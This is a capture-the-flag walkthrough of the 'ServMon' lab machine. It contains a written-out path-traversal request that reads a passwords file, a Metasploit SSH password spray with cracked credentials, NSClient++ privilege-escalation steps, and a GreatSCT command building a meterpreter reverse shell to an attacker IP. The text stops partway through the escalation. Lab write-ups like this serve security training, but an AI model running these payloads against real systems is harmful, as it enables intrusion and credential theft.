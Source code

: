 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# ServMon
# 14/4/2023
10.10.10.184

----------------------------------------------------
# nmap
----------------------------------------------------
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
22/tcp   open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
80/tcp   open  http
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  napster?
8443/tcp open  ssl/https-alt

----------------------------------------------------
# enum
----------------------------------------------------
ftp 10.10.10.184
anonymous
passive
ls
cd Users
ls Nadine
get "Nadine\\Confidential.txt"
ls Nathan
get "Nathan\\Notes to do.txt"


Inspection of port 80 in a browser reveals a login page for the NVMS-1000 network surveillance
software. The default credentials admin / 123456 or other common credentials do not give us
access.


Inspection of port 8443 shows a login screen for NSClient++ . Attempting to login with common
passwords is also unsuccessful.
https://10.10.10.184:8443/


----------------------------------------------------
# foothold
----------------------------------------------------
└─$ searchsploit nvms

Configure the browser to use Burp as a proxy, 
refresh the NVMS-1000 web page and intercept
the request. Hit CTRL + R to send the request to Burp's Repeater module. 
Substitute the GET
request on the first line with the payload below. The file win.ini exists in on Windows
installations and is readable by all users, and so is a good target for verifying a LFI.
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1


The win.ini file is displayed, which validates the vulnerability. 
Using the information from the FTP
server let's try to open C:\Users\Nathan\Desktop\Passwords.txt .

GET /../../../../../../../../../../../../Users\Nathan\Desktop\Passwords.txt HTTP/1.1

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$

We can attempt a password spray against SSH. Save the above list as passwords.txt. Examination
of FTP revealed the users Nadine and Nathan . Add them to a users.txt along with
administrator .


use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.10.184
set USER_FILE users.txt

nadine
nathan

set PASS_FILE passwords.txt
run

[+] 10.10.10.184:22 - Success: 'nadine:L1k3B1gBut7s@W0rk' 'Microsoft Windows [Version 10.0.17763.864]'

The password L1k3B1gBut7s@W0rk was found to work for the username nadine , and a
command shell is opened as this user. However, the command whoami /priv reveals that they
are an unprivileged user.

----------------------------------------------------
# priv esc
----------------------------------------------------
Enumerating of the filesystem reveals the non-default directory C:\Program
Files\NSClient++\ . The .ini file for NSClient is found inside. Let's read it

We can also identify the version with the command:
cmd /c "C:\Program Files\NSClient++\nscp.exe" web -- password --display

PS C:\Program Files\NSClient++> cat nsclient.ini
password = ew2x6SsGTxjRwXOT


We have gained the password for the web app, and know that localhost is the only whitelisted
entry. Researching NSClient online we come upon this privilege escalation technique, involving
feature abuse. The software version mentioned in this procedure is 0.5.2.35 . The following
command reveals that the same software version is installed on the box.
->cmd /c "C:\Program Files\NSClient++\nscp.exe" --version




ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184

https://localhost:8443/
Let's set up an SSH tunnel to access the web app from localhost port 8443
Navigate to https://localhost:8443 and use the password found in the ini file to login.
Let's create an external script that will execute our payload on the system. Navigate to Settings
> External Scripts > Scripts and click + Add new .

Next, input /settings/external scripts/scripts/shell in the Section field, the command in
the Key field, and C:\Temp\pwn.bat in Value . The bat file will be used to run commands as
system.



cd ~/
git clone https://github.com/GreatSCT/GreatSCT
cd GreatSCT
sudo ./GreatSCT.py --ip 10.10.14.13 --port 1234 -t bypass -p
regsvcs/meterpreter/rev_tcp.py -o serv